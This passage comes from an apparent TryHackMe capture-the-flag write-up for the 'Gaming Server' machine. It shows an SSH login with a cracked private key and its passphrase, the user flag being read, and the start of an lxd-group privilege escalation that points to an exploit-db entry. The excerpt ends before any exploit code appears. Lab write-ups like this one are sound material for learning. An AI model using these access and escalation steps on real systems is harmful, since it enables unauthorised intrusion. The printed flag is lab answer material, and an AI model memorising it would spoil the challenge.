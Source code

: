 `chmod 600 key`

I then logged in to machine via ssh using john as the user and the identity file key :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ ssh -i key john@10.10.141.254
Enter passphrase for key 'key': letmein
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jul 20 16:28:54 UTC 2025

  System load:  0.0               Processes:           100
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 34%               IP address for ens5: 10.10.141.254
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.

Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10

john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

```

Boom .
# Privilege Escalation

We can't `sudo -l` so we have to find another way, first we check `id` :

```
john@exploitable:/etc$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

```

**lxd** seems interesting, if we search about we find out it's a container, so we have to find a way out of that .

On reading around I found a way it can be used to escalate privileges on [exploit-db](https://www.exploit-db.com/exploits/46978), so let's download to target machine.

## Searchsploit
